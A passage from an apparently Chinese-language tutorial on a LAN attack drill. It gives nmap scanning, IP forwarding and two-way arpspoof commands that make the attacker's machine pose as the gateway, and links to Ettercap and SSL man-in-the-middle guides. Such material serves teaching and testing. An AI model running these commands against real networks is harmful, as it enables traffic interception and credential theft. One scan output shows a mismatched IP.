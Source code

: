	$ sudo apt-get install driftnet


## 局域网典型攻击演习
本演习系统环境如下：

	$ lsb_release -a
	Distributor ID:	Ubuntu
	Description:	Ubuntu 12.10
	Release:	12.10
	Codename:	quantal

### 第1步：锁定目标
该步不是必需。使用nmap命令扫描局域网，获得主机列表，操作如下：

	$ nmap -sP  192.168.1.0/24
* “-sP” 表示使用Ping方式扫描；
* “192.168.1.0/24”表示扫描"192.168.1.1-192.168.1.254"这个网段的所有机器。

nmap命令扫描结果仅供参考，也可以尝试其他参数扫描，详细使用方法参考[NmapManual][]。

### 第2步：收集信息
该步不是必需。选定目标为主机A(这里假定IP地址为192.168.1.110)，使用命令"nmap 192.168.1.110"可获得主机A的详细情况，如服务端口开放情况，操作系统类型等信息。

	$ nmap -A 192.168.1.110
	Starting Nmap 6.00 ( http://nmap.org ) at 2013-08-12 12:34 CST 
	Nmap scan report for 10.3.3.108
	Host is up (0.00026s latency).
	Not shown: 996 closed ports
	PORT    STATE SERVICE     VERSION
	22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1.1 (protocol 2.0)
	...
	139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
	873/tcp open  rsync       (protocol version 30) 
	Service Info: OS: Linux; CPE: cpe:/o:linux:kernel

### 第3步：开启IP转发和ARP欺骗
该步仅针对交换式局域网，共享式局域网可以忽略（共享式网络只要打开网卡的混杂模式就可以抓取所有内网数据包），ARP欺骗一般目的是把自己伪装成网关，但如果不作处理，当被欺骗数据包到达后就会被本机丢弃（因为自己到底不是网关，还不知道如何处理这类数据包），这当然是不允许的。开启IP转发功能可以解决该问题，IP转发负责把该类数据包再转发给真正的网关处理，开启IP转发的方法(注意使用root操作第二条命令）：

	$ sudo su
	# echo 1 > /proc/sys/net/ipv4/ip_forward
ARP欺骗使用arpspoof命令（开启双向欺骗，即同时欺骗主机A和网关）：

	$ sudo arpspoof -i eth0 -t 192.168.1.110 192.168.1.1
	$ sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.110
- "-i eth0"指定设备节点，无线网络时可能是"-i wlan0"；
- "-t 192.168.1.xxx"指定欺骗对象，如果不指定该项，则欺骗对象为整个网络（ARP病毒引起局域网瘫痪就是这么干的，操作前需注意)，最后一个参数"192.168.1.xxx"指伪装目标。


[Wireshark]: http://www.wireshark.org/
[FilteringWhilegapturing]: http://www.wireshark.org/docs/wsug_html_chunked/ChCapCaptureFilterSection.html
[CaptureFilters]: http://wiki.wireshark.org/CaptureFilters
[DisplayFilters]: http://wiki.wireshark.org/DisplayFilters
[GAE]: https://developers.google.com/appengine/?hl=zh-cn
[WhatIsGAE]: https://developers.google.com/appengine/docs/whatisgoogleappengine?hl=zh-cn
[Goagent]: http://code.google.com/p/goagent/
[InstallGuide]: https://code.google.com/p/goagent/wiki/InstallGuide
[FAQ]: https://code.google.com/p/goagent/wiki/FAQ
[ConfigIntroduce]: https://code.google.com/p/goagent/wiki/ConfigIntroduce
[SwitchySharp]: https://code.google.com/p/switchysharp/
[SwitchySharp2]: https://chrome.google.com/webstore/detail/proxy-switchysharp/dpplabbmogkhghncfbfdeeokoefdjegm?hl=zh-CN
[Nmap]: http://nmap.org/man/zh/
[NmapManual]: http://nmap.org/man/zh/ 
[Ettercap]: http://ettercap.github.io/ettercap/index.html
[1]: http://www.2cto.com/article/201301/183322.html "Ettercap简要原理介绍以及使用说明"
[2]: http://www.91ri.org/4408.html "Linux渗透之Ettercap详解"
[3]: http://vmeng.blog.51cto.com/2305370/1143426 "用ettercap实现DNS欺骗实例"
[4]: http://netsecurity.51cto.com/art/201212/371895.htm  "不知不觉帐号密码被窃:中间人攻击介绍"
[5]: http://blog.sina.com.cn/s/blog_4a898cfb0100t8j7.html  "通过伪造CA证书，实现SSL中间人攻击(附详细过程和实现代码）"
[6]: http://www.rootoorotor.org/hacking/%E5%85%B3%E4%BA%8Earp%E6%AC%BA%E9%AA%97%E4%B8%8Emitm%EF%BC%88%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB%EF%BC%89%E7%9A%84%E4%B8%80%E4%BA%9B%E7%AC%94%E8%AE%B0%EF%BC%88%E4%BA%8C%EF%BC%89/ "关于ARP欺骗与MITM（中间人攻击）的一些笔记（二）" 